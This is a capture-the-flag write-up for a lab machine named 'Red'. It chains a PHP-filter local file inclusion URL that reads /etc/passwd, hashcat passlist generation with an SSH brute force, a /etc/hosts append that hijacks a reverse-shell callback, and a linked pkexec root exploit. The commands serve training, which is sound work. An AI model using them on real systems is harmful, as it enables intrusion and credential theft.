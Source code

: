 # Red

Scanning for target, we discover 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Looking around the website and source code didn't give us any leads. 

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%201.png)

But the URL gave us an idea to try out Local File Inclusion (LFI) using PHP wrapper. And as expected we got a lead. We were able to retrieve the `/etc/passwd` file from the machine.

`http://10.10.81.76/index.php?page=php://filter/resource=/etc/passwd`

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%202.png)

From the file we got to see the existence of two users `blue` and `red` . Next we retrieved the contents of `.bash_history` from `/home/blue` . This revealed that a passlist was generated with a file `.reminder`  as the base and `best64.rule` ruleset using hashcat.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%203.png)

We retrieved the contents of `.reminder` and used hashcat and same ruleset to create a passlist.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%204.png)

`hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt` 

From there we used the passlist and the username blue to brute force our way in through SSH using hydra.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%205.png)

Now we have access to the machine as blue. From here we get the fist flag.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%206.png)

As we progressed by checking through the folders and files we were getting kicked out from the machine from time to time and red was taunting us with his quips. This means some process is running in the background which enables him to do so. So we used `pspy64` by running it in`/tmp` folder.  This reveals a command being run that tries to establish a reverse shell to server `redrules.thm`  on port 9001.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%207.png)

Checking for files with writable permissions for blue, we find `/etc/hosts` is one of them

`find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)’`

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%208.png)

Examining the hosts file we find the address `redrules.thm` resolved to an IP address.  Now we try to change the IP to our ATTACKER machine IP but we are not able to do so. Checking the permissions of the file using`lsattr /etc/hosts` reveal: `-----a--------e----- /etc/hosts` . That is we can append  it. Therefore `echo [attackboxIP] redrules.thm >> /etc/hosts` will work. We setup  a `netcat` on port 9001 and wait.

[PS :Red keeps changing contents of `/etc/hosts` so keep an eye out whether our changes are still there.]

Viola we get access as user red on the machine and the second flag.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%209.png)

Digging into the hidden files leads us to `.git` folder. Which contains `pkexec` , Hmmm not the usual place for it. 

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%2010.png)

Checking the version we find it as `0.105` . Quick google and we find an exploit.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%2011.png)

Quick search in google takes us to a GitHub repository with the exploit.

[https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

Running it gets us the root access and the final flag.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%2012.png)
